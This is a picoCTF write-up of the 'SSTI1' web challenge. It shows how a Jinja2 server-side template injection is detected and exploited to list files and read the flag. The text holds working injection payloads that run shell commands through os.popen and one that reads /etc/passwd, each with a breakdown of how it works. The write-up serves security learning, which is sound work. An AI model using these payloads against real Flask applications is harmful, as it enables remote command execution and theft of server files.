 🔖 Challenge Info

    Challenge Name: SSTI1

    Category: Web Exploitation

    CTF Platform: picoCTF

    Date Solved: 2025-05-02

📜 Challenge Description

    I made a cool website where you can announce whatever you want! Try it out!
    Additional details will be available after launching your challenge instance.

🧪 Recon & Enumeration

    I started by inspecting the webpage, but I didn’t find anything useful at first glance.

    I checked the provided hint, which stated:

        “Server Side Template Injection”

    I paused for around 1–2 hours to study SSTI (Server-Side Template Injection) and how to detect and exploit it.

To test for SSTI, I used the following payload:

{{7*7}}

When I submitted it in the input field, the output was:

49

This confirmed the presence of SSTI.
🧨 Vulnerability Identified

    Vulnerability: Server-Side Template Injection

    Template Engine: Likely Jinja2 (based on the payload behavior)

💣 Exploitation Steps

    I researched common SSTI payloads for Jinja2.

    I found this payload, which tries to read the /etc/passwd file:

{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}

However, this didn't work in my case, so I looked for simpler payloads.

I used this payload to execute the ls command:

{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}

This returned:

__pycache__ app.py flag requirements.txt

Then, I used the cat command to read the flag:

{{config.__class__.__init__.__globals__['os'].popen('cat flag').read()}}

Output:

    picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_ae48ad61}

🏁 Flag

picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_ae48ad61}

Note : 

Step-by-Step Breakdown
1. config

    In Flask apps, config is often available in the template context.

    It’s an instance of the Config class, which holds configuration values.

2. config.__class__

    Accesses the class of the config object: <class 'flask.config.Config'>.

3. __init__

    Gets the __init__ method of the class, which is the constructor function.

4. __globals__

    Every Python function has a __globals__ attribute: a dictionary of all the global variables/modules accessible in that function.

    Since __init__ is a method, you can use it to access the global scope of the module where flask.config.Config is defined — including the os module if it was imported there.

5. ['os']

    Retrieves the os module from the __globals__ dictionary.

6. .popen('ls')

    Uses os.popen() to run the shell command ls (list directory contents).

    This returns a file-like object.

7. .read()

    Reads the output of the ls command from the file-like object.

8. {{ ... }}

    Jinja2 syntax to evaluate the expression and display the result in the HTML output.